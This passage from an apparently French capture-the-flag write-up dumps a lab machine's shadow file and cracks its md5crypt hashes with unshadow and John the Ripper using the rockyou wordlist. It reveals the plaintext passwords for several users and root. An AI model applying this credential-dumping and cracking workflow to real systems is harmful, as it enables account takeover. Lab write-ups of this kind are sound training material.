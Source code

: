 ```console
dbus:!!:14362:0:99999:7:::
rpm:!!:14362:0:99999:7:::
polkituser:!!:14362:0:99999:7:::
avahi:!!:14362:0:99999:7:::
mailnull:!!:14362:0:99999:7:::
smmsp:!!:14362:0:99999:7:::
apache:!!:14362:0:99999:7:::
ntp:!!:14362:0:99999:7:::
sshd:!!:14362:0:99999:7:::
openvpn:!!:14362:0:99999:7:::
rpcuser:!!:14362:0:99999:7:::
nfsnobody:!!:14362:0:99999:7:::
torrent:!!:14362:0:99999:7:::
haldaemon:!!:14362:0:99999:7:::
gdm:!!:14362:0:99999:7:::
patrick:$1$DJYtkxSw$t.47LsE1j2VJKgBVT1Lar0:15679:0:99999:7:::
jennifer:$1$04FqEhSX$Nft0Rs7H2VhUK.fX53cPb1:15679:0:99999:7:::
andy:$1$29jCTuBP$OvytZOP3NacMeAcrbpoMR.:15679:0:99999:7:::
loren:$1$fWsonMXA$1uVln.k4Bh81j2zhCU1jL.:14362:0:99999:7:::
amy:$1$DDLpVzyX$zez4/KCciNorxsjZspzTM0:15679:0:99999:7:::
mysql:!!:14362::::::
cyrus:$1$BzxZidrU$dYMc0ad3NmEJX8L9dNrqJ0:14363::::::
webalizer:!!:16294::::::
[root@localhost ~]#
```

Un troisième dictionnaire est appelé à la rescousse : Rockyou.

```console
root@blinils:~# unshadow passwdCTF5.txt shadowCTF5.txt > passwd.db
root@blinils:~# john passwd.db --wordlist=/usr/share/dict/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
dolphins         (amy)
ne1410s          (patrick)
homebrew         (jennifer)
marvin1          (andy)
buckyboy         (loren)
```

Afin d'être le plus exhaustif possible, le mot de passe de root est fourni à John The Ripper.

```console
root@blinils:~# echo "50\$cent" > last
root@blinils:~# john passwd.db --wordlist=last
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Remaining 2 password hashes with 2 different salts
Press 'q' or Ctrl-C to abort, almost any other key for status
50$cent          (cyrus)
50$cent          (root)
2g 0:00:00:00 DONE (2018-01-03 05:07) 200.0g/s 100.0p/s 200.0c/s 200.0C/s 50$cent
Use the "--show" option to display all of the cracked passwords reliably
Session completed


root@blinils:~# john passwd.db --show
root:50$cent:0:0:root:/root:/bin/bash
patrick:ne1410s:500:500:Patrick Fair:/home/patrick:/bin/bash
jennifer:homebrew:501:501:Jennifer Sea:/home/jennifer:/bin/bash
```